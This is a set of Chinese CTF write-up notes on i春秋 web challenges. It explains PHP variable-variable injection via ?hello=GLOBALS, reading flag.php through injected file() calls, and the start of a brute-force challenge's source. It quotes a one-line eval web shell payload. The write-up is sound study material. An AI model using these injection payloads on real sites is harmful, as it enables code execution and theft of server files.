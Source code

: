 # web

## flag在变量中（i春秋）

文件包含题

1. 这个代码的作用是如果匹配正则表达式/^\w*$/，就打印变量$$a，$a是hello，$$a是六位变量$hello

2. 由于$a在函数中，所以函数之外无法访问。如果要访问，将hello修改为超全局变量GLOBALS。

3. 在URL后加?hello=GLOBALS，将参数hello修改为Globals

实际执行语句：
```
eval("var_dump($$a);")
eval("var_dump($hello);")
eval("var_dump($GLOBALS);")
```
$GLOBALS的作用：引用全局作用域中可用的全部变量。就可以导出所有的变量

## flag不在变量中（i春秋）

查看globals变量，没有

网传waritup有两种：

/?hello=file_get_contents('flag.php')

/?hello=${@eval($_POST[1])}

都不成功，最后： ?hello=file("flag.php")

```
ile() 函数是把整个文件读入一个数组中，然后将文件作为一个数组返回。
readfile() 函数读取一个文件，并写入到输出缓冲。如果成功，该函数返回从文件中读入的字节数。如果失败，该函数返回 FALSE 并附带错误信息。您可以通过在函数名前面添加一个 '@' 来隐藏错误输出。
file_get_contents() 把整个文件读入一个字符串中。
```

## 爆破3（i春秋）
```
<?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
```